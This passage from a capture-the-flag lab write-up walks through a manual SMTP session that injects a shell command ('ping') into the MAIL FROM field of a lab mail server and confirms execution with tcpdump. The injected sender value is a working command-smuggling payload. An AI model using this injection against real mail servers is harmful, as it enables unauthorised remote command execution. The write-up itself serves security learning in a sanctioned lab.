 I’ll enter `HELO` and then the payload in the `MAIL FROM`:

```

HELO x
250 smtp.realcorp.htb Hello x [10.241.251.1], pleased to meet you
MAIL FROM:<;ping -c 1 10.10.14.7;> 
250 2.0.0 Ok

```

Next I need to enter the rest of the fields. But it fails on trying to send to root:

```

RCPT TO:<root>
550 Invalid recipient: <root@smtp.realcorp.htb>

```

Luckily I had an email address from the Squid pages:

```

RCPT TO:<j.nakazawa@realcorp.htb>
250 2.1.5 Destination address valid: Recipient ok

```

Now the data. The top blank line is important, and then whatever I want leading up to a line with just a `.`:

```

DATA
354 Enter mail, end with "." on a line by itself

0xdf was here
.
250 2.0.0 b555d48d Message accepted for delivery

```

When it prints “Message accepted for delivery”, ICMP packets arrive at `tcpdump`:

```

oxdf@parrot$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:40:26.629737 IP 10.10.10.224 > 10.10.14.7: ICMP echo request, id 21, seq 1, length 64
17:40:26.629760 IP 10.10.14.7 > 10.10.10.224: ICMP echo reply, id 21, seq 1, length 64

```

I’ll enter `QUIT` to exit:

```

QUIT
221 2.0.0 Bye

```
